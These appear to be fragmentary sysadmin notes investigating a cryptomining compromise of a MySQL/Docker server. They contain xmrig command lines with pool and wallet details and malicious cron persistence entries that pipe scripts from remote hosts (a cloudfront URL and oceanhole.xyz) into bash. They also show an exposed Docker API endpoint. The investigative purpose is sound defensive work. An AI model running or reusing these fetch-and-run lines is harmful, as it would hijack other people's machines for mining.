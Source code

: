 32147 root      20   0   51000   1104    204 S 132.9  0.0  23:13.58 whoami
 2690 root      20   0   51000   1312    200 S 132.2  0.0  20:02.49 cd /etc
 1949 root      20   0   51000   1224    204 S 131.6  0.0  20:55.64 ls -la

 103.25.178.154


root      1501  0.0  0.0 115440   336 ?        S    1月25   0:00 /bin/sh /usr/local/mysql/bin/mysqld_safe --datadir=/data/mysql --pid-file=/data/mysql/mysql.pid

netstat -nt | grep 172.16.0.236 | awk '{print $5}' | awk -F":" '{print $1}' | sort | uniq -c | sort -nr

27.187.40.155
27.187.40.155 5685


mysql     1515  0.1  0.2 942628 32656 ?        Ssl  2月05   4:43 ./xmrig --algo=cryptonight-lite --url=pool.aeon.hashvault.pro:3333 --user=WmthxKa4FVvSDA8fjyXiZJB3WWWFxumQJAZfRGmrMCaMCooq52sipimAYJM2NYNy34bJUX566wEBmEC2QmdmnVLh2GzgRy4F6 --pass=phantompain --donate-level=1 --max-cpu-usage=100
mysql     2513  0.1  8.8 2486028 1435868 ?     Sl   1月25  22:32 /usr/local/mysql/bin/mysqld --basedir=/usr/local/mysql --datadir=/data/mysql --plugin-dir=/usr/local/mysql/lib/plugin --user=mysql --log-error=/data/mysql/mysql-error.log --open-files-limit=65535 --pid-file=/data/mysql/mysql.pid --socket=/tmp/mysql.sock --port=3306

http://www.mamicode.com/info-detail-2416637.html



vim /var/spool/cron/root
0 0 * * * /usr/bin/wget -qO- http://d1acj5w9t09ym0.cloudfront.net/fr.sh | bash

xmrig 一直还有
mysql    31261  659  0.1 730160 26184 ?        Ssl  20:19   4:10 ./xmrig --algo=cryptonight-lite --url=pool.aeon.hashvault.pro:3333 --user=WmthxKa4FVvSDA8fjyXiZJB3WWWFxumQJAZfRGmrMCaMCooq52sipimAYJM2NYNy34bJUX566wEBmEC2QmdmnVLh2GzgRy4F6 --pass=phantompain --donate-level=1 --max-cpu-usage=100

-bash-4.2# find / -name xmrig
/var/lib/docker/overlay2/3c3b765e5e7c7f456154b180dd00603bf7f88a674b204ddbc5d5dbd962a9557f/merged/home/monero/xmrig
/var/lib/docker/overlay2/7d5eed4475b53b5cd03b160ebf35c55b433aaf0f826b408d11b98ddae04c8606/diff/home/monero/xmrig


kannix/monero-miner


## 接下来几天
* * * * * root curl "https://oceanhole.xyz/d3?n=$(nproc)" | bash || wget -qO - "https://oceanhole.xyz/d3?n=$(nproc)" | bash

* * * * * root ps aux | grep -v grep | grep kernelupd || /etc/.a/b


## 还原
docker -H tcp://172.16.0.236:2375 ps -a
https://www.cnblogs.com/hanyifeng/p/5526799.html

mqtsiiseocvibfhc



